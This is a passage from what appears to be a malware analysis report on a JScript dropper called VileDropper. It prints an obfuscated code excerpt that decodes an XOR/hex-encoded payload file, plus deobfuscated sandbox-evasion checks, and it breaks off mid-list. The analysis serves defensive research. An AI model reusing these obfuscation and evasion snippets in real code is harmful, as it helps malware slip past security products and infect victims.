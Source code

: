 


1234567891011121314

var _0x140c9e;//ACCS3_0x36bbe9: {//ACCS3    try {//ACCS3        var _0x527036 = _0x112a30 + '\x5c' + WScript[_0x1dbcbb(0x38c)](0x1),//ACCS3            _0x33ee6e = _0x3b3918[_0x4462ad[_0x1dbcbb(0x312)](_0x4459df, _0x4462ad[_0x1dbcbb(0x23d)])](_0x527036, 0x1),//ACCS3            _0x46efdf = _0x33ee6e[_0x4459df(_0x1dbcbb(0x1e7) + _0x1dbcbb(0x29c))]();//ACCS3        _0x33ee6e[_0x1dbcbb(0x37a)](), _0x3b3918[_0x1dbcbb(0x38f)](_0x527036), _0x527036 = '';//ACCS3        for (_0x33ee6e = 0x0; _0x33ee6e < _0x46efdf[_0x1dbcbb(0x2fa)] - 0x2; _0x33ee6e += 0x2)//ACCS3            _0x527036 += String[_0x1dbcbb(0x259) + 'de'](parseInt(_0x46efdf[_0x1dbcbb(0x2f4)](_0x33ee6e, _0x33ee6e + 0x2), 0x10));//ACCS3        _0x140c9e = _0x527036;//ACCS3        break _0x36bbe9;//ACCS3    } catch (_0x48c9c6) {}//ACCS3    _0x140c9e = void 0x0;//ACCS3}//ACCS3




Figure 10. VileDropper code excerpt in its original form
VileDropper needs at least two arguments to run for the first time (a third may be used as a flag to trigger environment-specific execution variations, depending on security products that are installed on targeted computers):

the first one is a partial password (used to decode XOR-encoded data),
the second is a path to an encoded payload file (contains VileLoader and its companion shellcode).

VileDropper also checks its interpreter and file name, to immediately stop execution if it is not called as planned (this is probably done to evade sandboxes), as can be seen in the following deobfuscated code excerpt:





if (aWShell1["CurrentDirectory"]["toLowerCase"]() != aAppDataPath1["toLowerCase"]()) {
    WScript["Quit"]();
}
if (!sArgThird1) {
    if (-0x1 == aScriptHostFullpath1["indexOf"]("msdcat")) {
        WScript["Quit"]();
    }
} else {
    if (-0x1 == aScriptHostFullpath1["indexOf"]("cscript")) {
        WScript["Quit"]();
    }
}




123456789101112

if (aWShell1["CurrentDirectory"]["toLowerCase"]() != aAppDataPath1["toLowerCase"]()) {    WScript["Quit"]();}if (!sArgThird1) {    if (-0x1 == aScriptHostFullpath1["indexOf"]("msdcat")) {        WScript["Quit"]();    }} else {    if (-0x1 == aScriptHostFullpath1["indexOf"]("cscript")) {        WScript["Quit"]();    }}




Figure 11. Deobfuscated execution check in VileDropper
VileDropper’s exact execution flow depends on the security products that are installed on the targeted computer, but most of the time, it copies itself to another file, relaunches itself, and deletes its original copy. During execution VileDropper:
